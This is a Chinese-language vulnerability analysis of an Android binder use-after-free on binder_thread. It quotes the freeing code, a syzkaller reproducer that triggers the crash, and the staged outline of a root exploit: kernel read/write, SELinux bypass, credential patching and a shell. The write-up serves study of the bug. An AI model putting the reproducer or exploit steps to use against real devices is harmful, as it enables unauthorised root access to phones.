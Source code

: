  

那么这个 UAF 对象到底是啥，我们从漏洞的报告的释放对象那里找去找线索，

 

通过 binder_free_thread drivers/android/binder.c:4211 [inline] 找到源码

```
static void binder_free_thread(struct binder_thread *thread)
{
    BUG_ON(!list_empty(&thread->todo));
    binder_stats_deleted(BINDER_STAT_THREAD);
    binder_proc_dec_tmpref(thread->proc);
    kfree(thread);
}

```

看到最后一行 kfree(thread) 释放的是 thread 所以 UAF 对象是一个 binder_thread 类型的结构体。

 

这份报告还给出了[触发崩溃的过程](https://09738734946362323617.googlegroups.com/attach/34e8d5657e183/repro.txt?part=0.3&view=1&vt=ANaJVrGkJhXgYANpu80aVo-SNm0esOYv6ExombyFAxHNHnYq3_msXrderzqvzy88w3igWEElk4JBxoNfIviVGoclAzfJ1YdIam6wyHtRXFglusebPtvWoeE)

```
#{Threaded:false Collide:false Repeat:false Procs:1 Sandbox: Fault:false FaultCall:-1 FaultNth:0 EnableTun:false UseTmpDir:false HandleSegv:false WaitRepeat:false Debug:false Repro:false}
mmap(&(0x7f0000000000/0xfff000)=nil, 0xfff000, 0x3, 0x32, 0xffffffffffffffff, 0x0)
r0 = syz_open_dev$binder(&(0x7f0000001000)="2f6465762f62696e6465722300", 0x0, 0x0)
r1 = epoll_create(0x10001)
epoll_ctl$EPOLL_CTL_ADD(r1, 0x1, r0, &(0x7f0000337000-0xc)={0x2019, 0x0})
ioctl$BINDER_THREAD_EXIT(r0, 0x40046208, 0x0)

```

里面还隐藏了一个函数调用 do_exit 退出线程。这就是 EXP 的最原始版本. 崩溃分析的目的是大致确定漏洞是如何触发的，为接下来的详细分析做准备。

POC 的整体架构
=========

拿到 POC，首先第一眼就让人感到舒适，简洁。他没有封装成一个个子函数而是构建了一个函数指针 + 函数描述的结构体，这样执行了哪几步，每一步都是做什么的就非常一目了然，如下

```
struct stage_t stages[] = {
    {prepare_globals, "startup"},
    {find_current, "find kernel address of current task_struct"},
    {obtain_kernel_rw, "obtain arbitrary kernel memory R/W"},
    {find_kernel_base, "find kernel base address"},
    {patch_creds, "bypass SELinux and patch current credentials"},
    {launch_shell, NULL},
    {launch_debug_console, NULL},
};
void execute_stage(int stage_idx) {
    stage_desc = stages[stage_idx].desc;
    (*stages[stage_idx].func)();
    ...
}
int main(int argc, char *argv[]) {
    ...
    execute_stage(0); /* prepare_globals() */
    execute_stage(1); /* find_current() */
    execute_stage(2); /* obtain_kernel_rw() */
    execute_stage(3); /* find_kernel_base() */
    ...
}

```
